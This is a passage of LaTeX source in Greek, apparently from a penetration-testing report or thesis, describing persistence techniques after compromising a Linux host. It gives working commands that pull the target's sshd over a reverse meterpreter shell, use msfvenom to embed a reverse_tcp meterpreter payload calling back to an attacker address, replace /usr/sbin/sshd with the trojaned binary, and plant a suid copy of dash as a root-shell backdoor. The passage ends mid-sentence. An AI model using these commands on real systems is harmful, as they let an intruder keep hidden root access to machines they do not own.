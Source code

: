 \documentclass[12pt]{report}
\begin{document}
Για να το επιτύχουμε αυτό κατεβάζουμε από το σύστημα στόχο το εκτελέσιμο, μέσω του \textlatin{reverse meterpreter shell} και το τροποποιούμε ώστε να περιέχει το \textlatin{payload}. Στο παράδειγμα μας, αυτό γίνεται ως εξής:
\begin{scriptsize}
\begin{verbatim}
meterpreter > download /usr/sbin/sshd
\end{verbatim}
\end{scriptsize}
Σε ένα τοπικό \textlatin{shell} πληκτρολογούμε:
\begin{scriptsize}
\begin{verbatim}
root@kali# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.232.1 LPORT=443 -x sshd -e x86/
shikata_ga_nai -i 4 -k -f elf -o sshd2
\end{verbatim}
\end{scriptsize}
Και έπειτα στο \textlatin{meterpreter shell}:
\begin{scriptsize}
\begin{verbatim}
meterpreter > upload sshd2
meterpreter > shell
sh# mv sshd2 /usr/sbin/sshd
sh# systemctl restart sshd
\end{verbatim}
\end{scriptsize}

\paragraph{Χρησιμοποίηση Εκτελέσιμου με Δικαιώματα \textlatin{suid}}
Σε αυτή την περίπτωση αντιγράφουμε ένα υπάρχον εκτελέσιμο (συνήθως το \textlatin{/bin/bash}) στο \textlatin{PATH} και του δίνουμε δικαιώματα \textlatin{suid}. Έτσι μπορούμε να πάρουμε \textlatin{root shell} ακόμα και ως απλοί χρήστες.
\begin{scriptsize}
\begin{verbatim}
meterpreter > shell
sh# cp -a /bin/dash /bin/tash
sh# chmod a+s /bin/tash
\end{verbatim}
\end{scriptsize}
Αυτή η διαδικασία δουλεύει καλύτερα αν υπάρχει και ένας χρήστης μας στο μηχάνημα, όπως παρακάτω:
\end{document}
